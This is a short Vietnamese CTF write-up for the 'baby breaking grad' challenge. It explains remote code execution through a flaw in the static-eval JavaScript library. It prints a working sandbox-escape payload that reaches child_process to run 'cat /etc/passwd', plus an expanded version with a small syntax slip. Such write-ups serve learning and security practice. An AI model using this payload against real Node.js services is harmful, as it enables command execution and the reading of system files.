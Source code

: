 - Tiêu đề: baby breaking grad
- Nội dung: RCE in static-eval lib 

- Vào view source không có gì nên mình cũng nhận định lỗi từ thư viện 
- Thằng nào có eval là lỗi thôi =)))) 

![Alt text](<../image/31.1.png>)

- Search thư viện trên ra lỗi ngay 

![Alt text](<../image/31.2.png>)

- Giờ kiếm payload nhét vào:
(function myTag(y){return ''[!y?'__proto__':'constructor'][y]})('constructor')('throw new Error(global.process.mainModule.constructor._load(\"child_process\").execSync(\"cat /etc/passwd\").toString())')()
- việc định nghĩa và khai báo các hàm trong () gọi là function expression
- Viết đẹp ra là:
/////////////////////////
(
  function myTag(y){
    var someString = '';
    var x;
    if (y) {
        x = someString['__proto__'];
    } else {
        x = someString['constructor'] ;
    }
    return x[y];
)
var func = myTag('constructor');
var exploit = func('throw new Error(global.process.mainModule.constructor._load(\"child_process\").execSync(\"cat /etc/passwd\").toString())');
exploit();
////////////////////////
- Mình để thành throw new error vì nếu console thì không có kết quả trả về (bài này đơn giản chỉ nope hoặc passed thôi)


![Alt text](<../image/31.3.png>)
![Alt text](<../image/31.4.png>)


#hackerga2101: 
- Chi tiết về cách xây dựng payload và lỗi: 
https://security.snyk.io/vuln/SNYK-JS-STATICEVAL-173693
https://hilb3r7.github.io/walkthroughs/babybreakinggrad.html // nên đọc lại
- có liên quan đến kỹ thuật prototype chain 
- Hàm eval và hàm tạo Function đều cho phép thực thi đoạn mã JavaScript từ một chuỗi.(chat gpt)
